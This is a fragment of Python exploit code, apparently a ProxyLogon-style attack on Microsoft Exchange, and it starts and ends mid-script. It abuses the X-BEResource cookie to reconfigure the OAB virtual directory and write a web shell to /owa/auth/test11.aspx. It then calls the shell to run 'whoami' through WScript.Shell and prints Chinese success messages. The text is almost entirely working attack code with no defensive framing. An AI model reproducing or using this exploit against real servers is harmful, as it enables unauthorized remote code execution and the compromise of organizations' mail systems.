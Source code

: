 ```python
                "Cookie": "X-BEResource=Administrator@%s:444/ecp/DDI/DDIService.svc/SetObject?schema=OABVirtualDirectory&msExchEcpCanary=%s&a=~1942062522; ASP.NET_SessionId=%s; msExchEcpCanary=%s" % (
                    FQDN, msExchEcpCanary, sess_id, msExchEcpCanary),
                "msExchLogonMailbox": "S-1-5-20",
                "Content-Type": "application/json; charset=utf-8",
                "User-Agent": user_agent
            },
                json=oab_json,
                proxies=proxies,
                verify=False
            )
            if ct.status_code != 200:
                print("Set external url Error!")
                exit()

            reset_oab_body = {"identity": {"__type": "Identity:ECP", "DisplayName": "OAB (Default Web Site)", "RawIdentity": oabId},
                            "properties": {
                                "Parameters": {"__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel",
                                                "FilePathName": shell_absolute_path}}}

            ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
                "Cookie": "X-BEResource=Administrator@%s:444/ecp/DDI/DDIService.svc/SetObject?schema=ResetOABVirtualDirectory&msExchEcpCanary=%s&a=~1942062522; ASP.NET_SessionId=%s; msExchEcpCanary=%s" % (
                    FQDN, msExchEcpCanary, sess_id, msExchEcpCanary),
                "msExchLogonMailbox": "S-1-5-20",
                "Content-Type": "application/json; charset=utf-8",
                "User-Agent": user_agent
            },
                json=reset_oab_body,
                proxies=proxies,
                verify=False
            )

            if ct.status_code != 200:
                print("写入shell失败")
                exit()
            shell_url = "https://"+target+"/owa/auth/test11.aspx"
            print("成功写入shell：" + shell_url)
            print("下面验证shell是否ok")
            print('code=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami").StdOut.ReadAll());')
            print("正在请求shell")
            import time
            time.sleep(1)
            data = requests.post(shell_url, data={
                                "code": "Response.Write(new ActiveXObject(\"WScript.Shell\").exec(\"whoami\").StdOut.ReadAll());"}, verify=False, proxies=proxies)
            if data.status_code != 200:
                print("写入shell失败")
            else:
                print("shell:"+data.text.split("OAB (Default Web Site)")
                    [0].replace("Name                            : ", ""))
                print('[+]用户名: '+ new_email)
                final_shell = shell_url
                break
        except:
            print('[-]用户名: '+new_email)
            print("=============================")
    if not final_shell:
```